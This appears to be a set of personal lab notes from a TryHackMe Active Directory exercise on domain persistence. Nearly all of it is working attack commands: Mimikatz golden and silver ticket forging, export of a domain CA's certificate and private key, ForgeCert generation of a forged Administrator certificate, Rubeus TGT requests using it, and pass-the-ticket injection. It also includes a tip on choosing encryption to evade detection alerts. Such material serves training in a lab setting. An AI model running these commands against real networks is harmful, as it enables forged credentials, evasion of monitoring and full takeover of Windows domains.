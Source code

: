 **Golden ticket**
`mimikatz # kerberos::golden /admin:ALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt`

**Silver ticket**
`         
mimikatz # kerberos::golden /admin:ALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt`

# Generating our own Certificates become CA and make them cry
`mimikatz # crypto::certificates /systemstore:local_machine`
`mimikatz # privilege::debug`
`mimikatz # crypto::capi`
`mimikatz # crypto::cng`
`mimikatz # crypto::certificates /systemstore:local_machine /export`*The exported certificates will be stored in both PFX and DER format to disk, The za-THMDC-CA.pfx certificate is the one we are particularly interested in. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz.*

`C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 `

    CaCertPath - The path to our exported CA certificate.
    CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz.
    Subject - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
    SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
    NewCertPath - The path to where ForgeCert will store the generated certificate.
    NewCertPassword - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.

`C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101`*Get the TGT*

    /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
    /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
    /certificate - Path to the certificate we have generated
    /password - The password for our certificate file
    /outfile - The file where our TGT will be output to
    /domain - The FQDN of the domain we are currently attacking
    /dc - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running

`mimikatz # kerberos::ptt administrator.kirbi`
`mimikatz # exit`
